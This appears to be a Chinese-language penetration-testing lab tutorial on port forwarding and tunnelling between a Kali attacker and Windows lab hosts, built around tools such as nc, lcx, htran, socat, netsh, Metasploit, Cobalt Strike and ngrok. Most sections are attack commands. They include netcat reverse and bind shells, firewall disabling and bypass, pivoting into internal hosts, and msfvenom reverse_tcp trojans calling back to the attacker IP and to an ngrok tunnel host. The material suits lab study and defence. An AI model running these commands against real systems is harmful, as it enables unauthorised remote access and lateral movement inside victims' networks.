端口转发
本文介绍一些端口转发的常用工具
攻击机：kali 192.168.43.30
客户机：win7 192.168.43.78
客户机1：win2k8 192.168.43.127
反向连接：此时外网无法访问内网，内网可以访问外网，就让内网机器主动连接外网攻击机
正向连接：此时内网无法访问外网，外网可以访问内网，此方式流量比较大，但是防火墙需关闭
1.nc
1.反向连接
攻击机监听本地端口：nc -lnvp lport

客户机反向连接攻击机：nc.exe -e cmd rhost rport
攻击机获得客户机的cmdshell

2.正向连接
客户机开启监听：nc.exe -l -p lport -e cmd.exe
攻击机主动连接客户机：nc -nvv rhost rport即可获得客户机的cmdshell

2.lcx
1.反向连接
客户机把本地端口转发到远程端口： lcx.exe -slave rhost rport lhost lport（连接3389，需要开启此端口）

攻击机用portmap（相当于Linux的lcx）将本地的端口转发至另外一个端口 ：portmap -m 2 -p1 port -p2 port

此时攻击机连接本地的5555端口（第一次连接时可能会确认）

但是会把客户机挤掉线。。。
2.正向连接
可以访问外网的内网客户机将端口转发到另一台无法访问外网的内网客户机1的端口上：lcx.exe -tran lport rhost rport

攻击机连接访问外网的内网客户机的端口（此时就连接上了客户机1）

3.绕过防火墙
客户机将防火前监视的端口转发到防火墙监控不严的端口：lcx.exe -tran 监控不严的窗口 lhost 监控严格的窗口

此时攻击机连接客户机

3.netsh
Windows自带的防火墙规则配置工具。不同的操作系统版本中规则不一样。大概可以用来将本机端口转发至本机或者其他机器。
netsh firewall show state 查看系统防火墙状态
netsh firewall set opmode disable 关闭防火墙
netsh firewall set opmode enable 开启防火墙
添加转发规则：netsh interface portproxy add v4tov4 listenport=本地TCP端口 listenaddress=本地IP connectport=将传入连接重定向到本地或远程的端口 connectaddress=将传入连接重定向到本地或远程IP地址（或DNS名称）
查看转发规则：netsh interface portproxy dump
显示系统中的转发规则列表：netsh interface portproxy show all
删除转发规则：netsh interface portproxy delete v4tov4 listenport=本机端口 listenaddress=本地ip
清除所有当前的端口转发规则：netsh interface portproxy reset
4.htran
1.绕过防火墙
1.正向连接
客户机执行htran.exe -p -tran 允许出网的端口(dns:53 http:80) 127.0.0.1 被禁出网的端口

攻击机监听即可

2.反向连接
客户机将本地的端口转发到攻击机端口htran.exe -p -slave rhost rport 127.0.0.1 lport

攻击机利用portmap进行转发

攻击机监听即可

2.转发内网端口
1.将客户机转发到本地Htran.exe -p -tran lport1 lhost lport2

攻击机监听客户机即可

2.此方法内网中被攻击的主机均需具有此工具
客户机监听本地端口（相当于将端口1转发至端口2） htran.exe -p listen lport1 lport2

客户机1将本地的端口转发至客户机的端口1: htran.exe -p -slave host1 port1 127.0.0.1 lport

攻击机监听客户机的端口2即可（最后链接的是客户机1）rdesktop 192.168.43.78：9999
不知道什么原因，本地没有复现出来、。。。
5.socat
使用TCP4监听客户机本地端口，将客户机1的端口转发到本地：socat.exe TCP4-LISTEN:lport,reuseaddr,fork TCP4:rhost:rport

攻击机监听客户机即可（最后是监听的客户机1）

6.fpipe
将客户机1转发到客户机:Fpipe.exe -l lport -r rport rhost -v （v:显示过程）

攻击机连接客户机即可（最后链接的是客户机2）

7.portfwd
msf生成一个木马放入客户机进行执行:
1 | msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.43.30 lport=3333 -f exe > bug.exe |
攻击机开启监听.

将客户机1转发到本地（此时本地是客户机：portfwd add -l port -r rhost -p rport

查看转发规则：portfwd list
监听客户机即可（最后链接的是客户机1）

8.cs
使用cs生成一个木马并放置客户机运行，成功上线，然后后msf一样在交互区输入：port lport rhost rport
停止转发：rprtfwd stop 8888
9.rinetd（linux自带文件 /etc/rinetd.conf）
https://github.com/boutell/rinetd
按如下格式编辑此文件，将远程客户机转发到本地攻击机：0.0.0.0 lport rhost rport

启动rinetd：rinetd
监听本机即可（最后连接的是客户机）
我失败了，没转发出来，，，法克
10.rtcp
需要python环境。github项目地址：https://github.com/knownsec/rtcp
在客户机运行：./rtcp.py c:localhost:port c:rhost:port1

攻击机将端口1转发至端口2：./rtcp.py l:port1 l:port2

如果客户机是linux，可以转发时将22端口转发出来，然后ssh连接本地端口2：ssh -p lhost port2
但是此次客户机是Windows，则转发3389，连接本地的端口2

11.ngrock
官网：https://www.ngrok.cc/login.html
一款在线的内网穿透工具，本例以msf+ngrok
首先隧道管理-开通隧道-滑倒最后选择免费的服务器，然后简单设置一下

注意：本地端口那里ip和端口选择kali的ip和端口
点击确定后成功开通

将客户端下载到kali，启动：./sunny clientid 隧道id


然后msf制作木马
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.idcfengye.com LPORT=远程端口 -f exe -o shell.exe |
然后开启监听
1 | use exploit/multi/handler |